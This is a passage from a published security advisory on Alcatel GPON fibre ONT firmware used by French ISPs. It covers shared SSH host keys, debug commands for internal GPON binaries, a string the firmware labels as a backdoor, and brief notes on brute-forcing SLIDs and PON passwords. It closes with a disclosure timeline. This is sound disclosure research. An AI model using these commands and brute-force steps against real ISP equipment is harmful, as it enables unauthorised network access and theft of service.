drwxrwxrwx 2 51454 619 1024 Aug 2 2005 mnt
dr-xr-xr-x 64 root root 0 Jan 1 1970 proc
drwxrwxrwx 2 51454 619 1024 Aug 2 2005 root
drwxrwxrwx 2 4223 619 1024 Aug 2 2005 sbin
drwxrwxrwx 2 51454 619 1024 Jan 1 00:00 tmp
drwxrwxrwx 11 4223 619 1024 Aug 2 2005 usr
drwxrwxrwt 5 root root 100 Jan 1 2006 var
#
NO COMMENT
7.6. Same SSH keys used in all the firmware
The SSH keys are common to the 3 ONTs. They are not generated locally but are stored in all the ONTs:
118cf5bad0322ed1215367679860a1ab alcatel.orange.v1/etc/ssh/ssh_host_dsa_key
118cf5bad0322ed1215367679860a1ab alcatel.sfr.v1/etc/ssh/ssh_host_dsa_key
118cf5bad0322ed1215367679860a1ab alcatel.orange.v2/etc/ssh/ssh_host_dsa_key
1f2dc282fff78f4682fafb166bfe7512 alcatel.orange.v1/etc/ssh/ssh_host_rsa_key.pub
1f2dc282fff78f4682fafb166bfe7512 alcatel.sfr.v1/etc/ssh/ssh_host_rsa_key.pub
1f2dc282fff78f4682fafb166bfe7512 alcatel.orange.v2/etc/ssh/ssh_host_rsa_key.pub
4386f5d936f01219075999d98e5758f9 alcatel.orange.v1/etc/ssh/ssh_host_rsa_key
4386f5d936f01219075999d98e5758f9 alcatel.sfr.v1/etc/ssh/ssh_host_rsa_key
4386f5d936f01219075999d98e5758f9 alcatel.orange.v2/etc/ssh/ssh_host_rsa_key
5c3e0520cd2c0b385016bf0909280e3d alcatel.orange.v1/etc/ssh/ssh_host_key.pub
5c3e0520cd2c0b385016bf0909280e3d alcatel.sfr.v1/etc/ssh/ssh_host_key.pub
5c3e0520cd2c0b385016bf0909280e3d alcatel.orange.v2/etc/ssh/ssh_host_key.pub
6d8f94cd4c1e57cc6a7e6d48d421f1e9 alcatel.orange.v1/etc/ssh/ssh_host_dsa_key.pub
6d8f94cd4c1e57cc6a7e6d48d421f1e9 alcatel.sfrv1.sfr/etc/ssh/ssh_host_dsa_key.pub
6d8f94cd4c1e57cc6a7e6d48d421f1e9 alcatel.orange.v2/etc/ssh/ssh_host_dsa_key.pub
da1e8ba42dfb2e1dfd105f8cc7a61cbb alcatel.orange.v1/etc/ssh/ssh_host_key
da1e8ba42dfb2e1dfd105f8cc7a61cbb alcatel.sfr.v1/etc/ssh/ssh_host_key
da1e8ba42dfb2e1dfd105f8cc7a61cbb alcatel.orange.v2/etc/ssh/ssh_host_key
7.7. Reverse-engineering - introducing Alcatel binaries
The Alcatel binaries are useful to control the FTTH connection :)
/usr/alcatel/help/* contains all the help files:
help
help/CommEqptMgmt
help/CommEqptMgmt/eqpt-dbg.help
help/bkgnd
help/bkgnd/bkgnd-dbg.help
help/parser
help/parser/pars-dbg.help
help/gponMac
help/gponMac/send.help
help/dbg
help/dbg/dbg.help
help/sniffer
help/sniffer/send.help
IE:
user@kali:~$ cat help/gponMac/send.help
A command string is sent to the gponMac process. The gponMac process
handles the command string and takes the appropriate action.
USAGE:
In order to send a command to the gponMac process, the following needs
to be done.
1. The gponMac process must be running.
2. The send command must be in the path.
3. The 'send gpon <command string>' command is then executed to send
<command string> to the gponMac process.
Valid commands are:
rw ww laser pm
rs dump ri slid
max1932 alarms ethhdr(*1) interrupts
sim deviceid ranginginfo dsphy
dstc usbwc usgem ustc
usphy fpga(*2) video(*3) help
*1 - Only available on Currituck based boards.
*2 - Only available on FPGA based boards.
*3 - Only available on boards with video.
Examples:
To get more detailed information on a specific command, use:
'send gpon help <command>'
To get more detailed help information on all commands, use:
'send gpon help all'
To retrieve the current ranging state, the rs command, use:
'send gpon rs'
It appears the gponMac program is a big mess without security by design.
Having fun with Alcatel daemons:
$ send help
send sniffer <cmd str> - send <cmd str> to the sniffer process
send gpon <cmd str> - send <cmd str> to the gponMac process
send test <test cmd> - perform the specified test cmd
setpowerdown <enable> - send powerdown message to gponMac process
GPON MAC API test cmds:
getconfinfo
confgemport <portId> <dir>
delgemport <portId> <dir>
getgemportconf <portId>
confgemportweight <portId> <pbits> <weight>
confallocgemassoc <allocId> <portId> <enable>
getallocidconf <allocId>
addmcastentry <mac> <wait> |<destPort>|
delmcastentry <mac> <wait>
confmcastfilter <portId> <enable> <wait>
getmcastfilterconf
wipemcastconf
confslid <persistent> <hexMode> (test slid only)
getslidconf
wipeallconf
setlasermode <enable>
setvideomode <enable>
setopticalattr <agcmode> <agcsetting> <vidlosthr> <vidlowthr> <vidhighthr> <ponlowthr> <ponhighthr> |<lasereolhighthr>|
getopticalattr
lockgmacpm
unlockgmacpm
printpm
resetgmacpm
Parameters:
allocId - 0-4095
portId - 0-4095
enable - 0(disable) 1(enable)
dir - 0(upstream) 1(downstream) 2(bi-dir)
pbits - 0-7
weight - 0-255
vid - VLAN ID
omci, 0vlan, keeptag, cpvid, wait - 0(no) 1(yes)
dest - 0(GMII0) 1(GMII1) 2(loopback) 3(drop to processor)
mac - 0xXXXXXX
If you want to debug GPON, use these commands:
empty -s -o /tmp/fifo.in "show gpon type\nshow gpon slid\nshow gpon sn\nshow firmware version\nshow gpon RSSI\n"
empty -s -o /tmp/fifo.in "show led\nshow uptime\nshow download status\nshow gpon ranging state\nshow gpon status\n"
nvram get ont_slid
Possible arguments for send:
show gpon type
show gpon slid
show gpon sn
show firmware version
show gpon RSSI
show led
show uptime
show download status
show gpon ranging state
show gpon status
gpon dump
gpon rw 0
gpon rw 4
gpon rw 100
gpon rw 104
gpon ww 100 ff
gpon rw 3000
gpon rw 3004
gpon ww 3000 ff
gpon rw 3010
gpon rw 3014
gpon ww 3010 ff
gpon rw 0x4024
gpon rw 0x4030
gpon rw 0x4034
gpon rw 0x4038
gpon rw 0x403c
gpon rw 0x4040
gpon rw 0x4044
gpon rw 100 # ALARMS
gpon rw 110 # BIP errors
gpon rw 114 # ERRORED Frames
gpon rw 11c # OOF counters
gpon rw 118 # PSYNC error counters
gpon rw 120 # Kill traffic registers
gpon rw 124 # last bit traffic enable
[...]
You can have fun reversing Alcatel binaries :)
Having fun reversing the binaries is left as an exercise for the reader :D
7.8. Reverse-engineering - Strange binary
user@kali:~$ grep -ai backdoor usr/freescale/bin/hld_test
This command is a backdoor to reading ONU MAC registers including bad addresses
NO COMMENT
8. Bruteforce
When SLIDs are PERMANENT, it seems to be trivial to bruteforce SLIDs and PON passwords (/usr/alcatel/dbg_bin/spiusrtest -f ponpassword). You can then authenticate yourself with PPP or, if it works, just by getting a connection with DHCP.
When SLIDs are VOLATILE, just connecting to a FTTH located in a basement will provide, in theory, the attacker with an anonymous gigabit FTTH connection.
9. Conclusion
As we have seen earlier, in certain cases, the security provided by GPON FTTH networks can be very bad.
I plan to publish a next article about FTTH and explain how a FTTH connection works inside the ONT/ONU and how an attacker can bruteforce SLIDs and PON passwords.
The possibilities of exploiting GPON FTTH networks are endless - that is, having fast Internet connections at home and learning interesting stuff ;)
10. Report Timeline
- 2013: 0day vulnerabilities found in ONTs by Pierre Kim, reverse-engineering of ONTs and security analysis of GPON FTTH
- Feb, 2014: First draft written by Pierre Kim
- May 11, 2016: Pierre Kim sends a pre-advisory to Orange, the biggest French ISP
- May 11, 2016: Orange confirms the reception of the documentation
- Jun 16, 2016: Pierre Kim asks Orange for update
- Jun 20, 2016: Orange confirms its work is in progress
- Jul 29, 2016: Pierre Kim asks Orange for update
- Sep 22, 2016: Pierre Kim asks Orange for update
- Sep 22, 2016: Orange says the work is still in progress to evaluate the vulnerabilities
- Sep 29, 2016: Orange asks to have a conference call
- Sep 30, 2016: Pierre Kim asks Orange for update
- Oct 10, 2016: Orange says the work is still in progress
- Oct 22, 2016: Pierre Kim asks Orange for update and for a written answer
- Oct 24, 2016: Pierre says he will disclose the information soon because of lack of answers from Orange
- Oct 24, 2016: Orange asks for a new conference call
- Oct 26, 2016: Orange confirms the vulnerabilities
- Oct 26, 2016: Following the conference call with Orange, Pierre Kim informs Orange he will release the research and asks Orange for an official answer
- Nov 01, 2016: Public disclosure
11. Credits and Greetings
This research was done by Pierre Kim (@PierreKimSec).
I would like to thank my wife who endures my time-consuming passions (maybe craziness is the correct term).
I would like to thank A, J and T (you know who you are :)
I would like to thank the LSE EPITA for providing me with a lot of CPU power used to crack the hashed backdoor passwords found in the ONT firmware.
12. License
This advisory is licensed under a Creative Commons Attribution Non-Commercial Share-Alike 3.0 License: http://creativecommons.org/licenses/by-nc-sa/3.0/
published on 2016-11-01 00:00:00 by Pierre Kim <pierre.kim.sec@gmail.com>